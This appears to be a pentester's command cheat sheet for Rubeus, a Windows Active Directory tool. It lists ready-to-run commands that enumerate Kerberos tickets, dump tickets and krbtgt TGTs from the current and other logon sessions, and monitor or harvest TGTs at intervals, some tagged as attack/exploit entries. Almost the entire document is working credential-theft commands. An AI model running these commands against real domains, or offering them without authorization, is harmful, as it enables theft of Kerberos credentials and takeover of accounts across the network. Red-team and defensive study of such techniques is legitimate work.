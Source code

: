 # rubeus

% ad, windows, rubeus

#plateform/windows #target/local 



## triage - list tickets
#cat/UTILS  
```powershell
.\Rubeus.exe 
```


## triage - list tickets for a service
#cat/UTILS 
```powershell
.\Rubeus.exe triage /service:<service|ldap>
```


## klist - details of current session tickets
#cat/UTILS 
```powershell
.\Rubeus.exe klist
```

## klist - details of  other session tickets
#cat/UTILS 
```powershell
.\Rubeus.exe klist /luid:<luid>
```

## dump - extract tickets of current session 
#cat/UTILS 
```powershell
.\Rubeus.exe dump /nowrap
```

## dump - extract tgt of current session 
#cat/UTILS 
```powershell
.\Rubeus.exe dump /nowrap /service:krbtgt
```

## dump - extract tickets of another session 
#cat/UTILS 
```powershell
.\Rubeus.exe dump /nowrap /luid:<luid>
```

## dump - extract tgt of another session 
#cat/UTILS 
```powershell
.\Rubeus.exe dump /nowrap /luid:<luid> /service:krbtgt
```

## monitor - extract periodically tgt
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe monitor /nowrap /interval:<sec_delai|5>
```

## monitor - extract periodically tgt of a user
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe monitor /nowrap /interval:<sec_delai|5> /targetuser:<target_user>
```

## harvest -  monitor + auto renewal before expiration
#cat/UTILS 
```powershell
.\Rubeus.exe harvest /nowrap /interval:<sec_delai|5>
```